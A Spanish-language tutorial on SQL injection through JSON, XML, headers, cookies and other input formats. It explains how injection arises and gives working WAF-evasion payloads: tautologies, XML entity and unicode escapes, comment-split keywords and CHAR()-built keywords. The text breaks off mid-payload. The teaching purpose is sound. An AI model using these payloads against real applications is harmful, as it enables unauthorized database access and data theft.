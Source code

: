 # SQL injection en diferentes contextos (JSON, XML, headers, APIs)

Las inyecciones SQL no se limitan al query string. Cualquier entrada controlable por el usuario que termine formando una consulta SQL puede ser vector de inyección: JSON, XML, cabeceras, cookies, segmentos de URL, multipart, GraphQL, etc. Diferentes formatos ofrecen formas alternativas de ocultar o evadir filtros, y a menudo requieren técnicas de explotación y evasión específicas.

[Obfuscating](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings#obfuscation-via-xml-encoding)

---

## 1) Idea clave

La vulnerabilidad aparece cuando la aplicación **construye o interpola** una consulta SQL usando datos controlados externamente sin usar **consultas parametrizadas** (prepared statements) o validación estricta. El formato del dato (JSON, XML, header) sólo cambia la forma en que el payload debe llegar y cómo la app lo decodifica antes de pasarlo al motor SQL.

---

## 2) Contextos comunes y ejemplos

### A — Query string / form data (clásico)

* GET: `/product?id=123` → `SELECT * FROM products WHERE id = '123'`.
* POST form: `product=123` similar.

### B — JSON (APIs REST)

* Petición JSON típica:

  ```json
  { "productId": 123, "filter": "recent" }
  ```
* Si el backend hace algo peligroso como: `query = "SELECT * FROM products WHERE id = '" + data.productId + "'";`, aceptará payloads JSON que incluyan comillas o estructuras.
* **Ejemplo de inyección JSON**: si `productId` no se valida: `{ "productId": "1' OR '1'='1" }` → `... WHERE id = '1' OR '1'='1'`.

### C — XML (SOAP, payloads de servicios)

* XML puede usar **escape sequences** o **entidades**:

  ```xml
  <stockCheck>
    <productId>123</productId>
    <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
  </stockCheck>
  ```

  El parser XML decodifica `&#x53;` a `S`, resultando en `SELECT` en el SQL final.
* También se puede abusar de **CDATA** y XXE para OOB exfiltration (cuando el XML es parseado y convertido a SQL después).

### D — Headers, Cookies y Path params

* `User-Agent`, `Referer`, `X-Forwarded-For`, o cookies pueden ser usados para inyección si son concatenados en SQL.
* Ejemplo: app registra `INSERT INTO access_log (ua) VALUES ('<User-Agent>')` → inyectá en `User-Agent`.
* Segmentos RESTful: `/user/123/orders` → si la app hace `WHERE user_id = '123'` usando el segmento, ese valor también puede explotar.

### E — Multipart / file metadata

* Formularios multipart incluyen campos de texto que pueden inyectarse. Metadatos de filenames también.

### F — GraphQL / BSON / NoSQL (mención)

* GraphQL pasa objetos; si se interpolan campos en consultas SQL internas, también son vectores.
* NoSQL injection (MongoDB) no usa SQL pero permite inyección cuando el input es interpretado como operador (`{ "$gt": "" }`).

---

## 3) Por qué los formatos ayudan a evadir filtros (WAF, regex simples)

* Muchos filtros buscan palabras clave comunes (`SELECT`, `UNION`, `DROP`) en la entrada cruda. Si el formato (ej. JSON/XML) **decodifica** entidades o escape sequences antes de ejecutar SQL, un payload codificado puede pasar el filtro y luego ser interpretado por el servidor.
* Ejemplos de evasión:

  * **Escapes HTML / XML**: `&#x53;ELECT` → `SELECT` tras parseo XML.
  * **URL encoding / percent encoding** en parámetros.
  * **Unicode homoglyphs / UTF-8 overlong** (poco fiable y detectable).
  * **Insertar comentarios** dentro de palabras clave: `SE/**/LECT`.
  * **Separar la palabra clave**: `SE` + `LECT` (si la app concatena input de varias fuentes).
  * **Uso de concatenación del motor**: `CHAR(83)+'ELECT'` (en SQL Server) o `CHR(83)||'ELECT'` (Oracle) para producir `SELECT` internamente.

---

## 4) Ejemplos prácticos de bypass (payloads)

> Ajustá comillas y encoding según el contexto (JSON string, XML text, header). Usá sólo en labs.

* **JSON (body)**

  ```json
  { "id": "1' OR '1'='1" }
  ```

* **JSON con encoding** (si parser decodes):

  ```json
  { "q": "1\u0027 OR \u00271\u0027=\u00271" }
  ```

  (`\u0027` = `'`) puede evadir filtros que no normalizan unicode.

* **XML escape example**

  ```xml
  <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
  ```

  (XML decode → `SELECT`)

* **Split keyword with comments**

  ```sql
  ' UN/**/ION SEL/**/ECT NULL,NULL--
  ```

* **Hex / CHAR functions** (MSSQL)

  ```sql
  ' UNION SELECT CHAR(83)+CHAR(69)+CHAR(76)+CHAR(69)+CHAR(67)+CHAR(84) --
  ```

* **Concatenate pieces from different JSON fields**
  Si un backend hace `q = body.a + body.b`, envía `{"a":"SE
